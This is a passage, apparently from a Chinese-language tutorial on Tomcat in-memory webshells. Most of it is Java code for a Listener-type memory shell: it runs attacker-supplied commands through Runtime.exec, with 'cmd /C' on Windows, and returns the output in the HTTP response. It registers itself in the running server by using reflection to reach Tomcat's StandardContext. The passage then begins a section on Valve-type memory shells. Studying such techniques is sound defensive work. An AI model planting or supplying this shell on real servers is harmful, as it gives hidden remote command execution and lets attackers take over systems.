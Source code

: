 ```java
            //加一个系统的判断
            String os = System.getProperty("os.name");
            boolean isWin = false;
            BufferedReader bufferedReader;
            if (os != null && os.toLowerCase().startsWith("windows")) {
                isWin = true;
            }

            try {
                if (isWin == false) {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
                } else {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
                }

                String len;
                while ((len = bufferedReader.readLine()) != null) {
                    result.append(len + "\n");
                }

            } catch (Exception e) {
                result.append(e.getMessage());

            }
            try {
                response.getWriter().print("<pre>" + result.toString() + "</pre>");
            } catch (IOException e) {
                e.printStackTrace();
            }


        }
    };


    Field declaredField = request.getClass().getDeclaredField("request");
    declaredField.setAccessible(true);
    Request request1 = (Request)declaredField.get(request);
    StandardContext standardContext=(StandardContext) request1.getContext();

    standardContext.addApplicationEventListener(servletRequestListener);
```



## Valve(阀门)内存马

[tomcat管道与阀门原理讲解](https://www.cnblogs.com/coldridgeValley/p/5816414.html)

Tomcat在处理一个请求调用逻辑的时候,传递Request和Response对象使用了职责链模式
